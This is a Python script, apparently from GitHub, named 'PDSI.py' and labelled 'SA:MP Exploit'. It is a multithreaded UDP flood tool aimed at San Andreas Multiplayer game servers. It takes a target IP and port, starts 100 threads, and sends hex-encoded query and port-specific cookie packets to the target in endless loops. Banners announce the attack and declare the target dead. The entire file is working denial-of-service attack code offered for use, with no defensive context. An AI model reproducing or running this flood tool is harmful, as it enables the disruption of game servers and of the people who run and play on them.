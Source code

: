 # PDSI.py
import socket
import struct
import codecs,sys
import threading
import random
import time
import os




ip = sys.argv[1]
port = sys.argv[2]
orgip =ip

Pacotes = [codecs.decode("53414d5090d91d4d611e700a465b00","hex_codec"),#p
                       codecs.decode("53414d509538e1a9611e63","hex_codec"),#c
                       codecs.decode("53414d509538e1a9611e69","hex_codec"),#i
                       codecs.decode("53414d509538e1a9611e72","hex_codec"),#r
                       codecs.decode("081e62da","hex_codec"), #cookie port 7796
                       codecs.decode("081e77da","hex_codec"),#cookie port 7777
                       codecs.decode("081e4dda","hex_codec"),#cookie port 7771
                       codecs.decode("021efd40","hex_codec"),#cookie port 7784
                       codecs.decode("021efd40","hex_codec"),#cookie port 1111 
                       codecs.decode("081e7eda","hex_codec")#cookie port 1111 tambem
                       ]


print("PDSI ATTACK TO IP: %s AND PORT: %s WITH WANGSAF DESTROYER"%(orgip,port))







class MyThread(threading.Thread):
     def run(self):
         while True:
                sock = socket.socket(
                    socket.AF_INET, socket.SOCK_DGRAM) # Internet and UDP

                msg = Pacotes[random.randrange(0,3)]

                sock.sendto(msg, (ip, int(port)))


                if(int(port) == 7777):
                    sock.sendto(Pacotes[5], (ip, int(port)))
                elif(int(port) == 7796):
                    sock.sendto(Pacotes[4], (ip, int(port)))
                elif(int(port) == 7771):
                    sock.sendto(Pacotes[6], (ip, int(port)))
                elif(int(port) == 7784):
                    sock.sendto(Pacotes[7], (ip, int(port)))
                elif(int(port) == 1111):
                    sock.sendto(Pacotes[9], (ip, int(port)))    


if __name__ == '__main__':
    try:
     for x in range(100):                                    
            mythread = MyThread()  
            mythread.start()                                  
            time.sleep(.1)    
    except(KeyboardInterrupt):
         os.system('cls' if os.name == 'nt' else 'clear')

         print('#########################################################################')
         print('SA:MP Exploit')
         print('#########################################################################')
         print('\n\n')
         print('Menyerang ip {} telah mati'.format(orgip))
         pass
